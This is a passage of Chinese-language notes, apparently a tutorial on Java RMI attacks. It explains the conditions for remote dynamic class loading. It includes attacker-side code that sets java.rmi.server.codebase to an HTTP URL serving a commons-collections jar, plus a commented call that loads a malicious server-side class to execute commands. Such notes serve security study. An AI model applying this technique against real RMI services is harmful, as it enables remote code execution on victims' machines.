 ```java
//String rs = h.sayHello("rai4over");
//String rs = h.exp1(payload());
 Object rs = h.exp2();			//服务端存在恶意类,exp2,客户端远程加载后执行命令
```

## 远程动态加载代码

受害端使⽤该属性远程动态加载需要两个条件：

> - java.rmi.server.useCodebaseOnly 的值为 false 。为 true 时，禁⽤⾃动加载远程，仅从CLASSPATH 和当前虚拟机的 java.rmi.server.codebase 指定路径加载类⽂件。从 JDK6u45 、 7u21 开始， java.rmi.server.useCodebaseOnly 的默认值就是 true 。
> - 设置 securityManager 和 java.security.policy



在攻击的一方的代码中加入

```java
System.setProperty("java.rmi.server.codebase",
"http://127.0.0.1:8000/commons-collections-3.1.jar");
```

受害者:

```java
System.setProperty("java.security.policy",
RMIServer.class.getClassLoader().getResource("java.policy").getFile());
 RMISecurityManager securityManager = new RMISecurityManager();
 System.setSecurityManager(securityManager)
```

# 工厂模式
